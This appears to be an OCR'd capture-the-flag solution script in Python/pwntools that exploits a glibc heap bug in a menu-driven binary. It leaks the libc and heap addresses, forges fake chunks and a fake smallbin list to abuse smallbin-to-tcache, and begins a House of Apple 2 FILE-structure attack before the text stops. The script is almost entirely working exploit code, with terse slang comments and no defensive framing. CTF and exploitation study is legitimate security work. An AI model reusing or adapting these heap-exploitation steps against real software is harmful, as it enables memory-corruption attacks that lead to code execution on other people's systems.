 ```python
def free():
    io.sendlineafter(b"> ", b"3")

def pwn():

    sla(b"> ", b'0'*0xd58 + b'3') # arrange heap layout (very very niu bi trick) '3' is a valid size. take effect in line 74

    # leak libc and heap

    add(1, b"a" * 0x48 + p64(0xd11)) # top chunk origin size: 0x??D11
    sla(b"> ", b'0'*0xfff+b'2') # trigger realloc to put top chunk into unsorted bin (very niu bi trick)
    free()
    add(1, b"a" * 0x50)
    show()
    ru(b'a'*0x50)
    libc_base = u64(io.recv(6).ljust(8, b'\x00')) - 0x219ce0
    success("libc_base: "+hex(libc_base))
    free()
    add(1, b"a" * 0x48 + p64(0xcf1)) # repair corrupted size

    free()
    add(2, b'a') # this chunk is split from old top chunk in unsorted bin
    free()
    add(1, b"a" * 0x50)
    show()
    ru(b'a' * 0x50)
    heap_base = u64(ru(b'\n')[:-1].ljust(8, b'\x00')) << 12 # leak tcache protect key (which xswl)
    success("heap_base: "+hex(heap_base))
    free()

    # smallbin to tcache

    # construct fake chunk to be consolidate with old top chunk (need to satisfy unlink macro)
    add(1, b'a' * 0x10 + pack(0) + pack(0x31) + 2*pack(heap_base+0x2c0) + b'a'*0x10 + pack(0x30) + pack(0xd00))
    free()
    add(2, b'a'*0x50 + pack(0x90) + pack(0x10) + pack(0) + pack(0x11)) # taken from tcache, but actually a very big chunk (0xd00) overlaping with the old top chunk which is in unsorted bin
    free() # trigger a consolidate with the 0x31 fake chunk in chunk-0x40, now we have a fake chunk in unsorted bin
    add(1, b'a'*0x10 + pack(0) + pack(0x91))

    sla(b"> ", b'0'*0xfff+b'2') # trigger malloc to the big-unsorted-bin-loop and put the fake chunk in chunk-0x40 into small bin

    free()
    # construct a fake smallbin-linked list
    add(1, flat([
        0, 0,
        0, 0x91, heap_base+0x2c0, heap_base+0x2c0+0x20,
        0, 0x91, heap_base+0x2c0, heap_base+0x2c0+0x40,
        0, 0x91, heap_base+0x2c0+0x20, libc_base+0x219d60,
    ]))
    free()
    add(2, b'a') # trigger smallbin-to-tcache process
    free()

    # House of Apple 2

    wide_data_off = 0xa0
    vtable_off = 0xd8
```